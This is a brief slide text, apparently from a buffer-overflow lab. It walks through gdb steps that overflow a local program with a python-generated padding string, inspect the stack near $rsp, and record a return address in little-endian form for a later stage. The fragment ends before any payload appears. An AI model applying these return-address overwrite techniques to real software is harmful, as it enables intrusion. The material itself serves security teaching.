

Execute the following commands one after another
run $(python –c ‘print “A”*27 + “A”*237 + “B”*6’)
x/20x $rsp -300

x/20x $rsp -304
I got correct match of address at x/20x $rsp -304
That is  7fffffffdef0
I used this address in next step at the end of the command as \x7f\xff\xff\xff\xde\xf0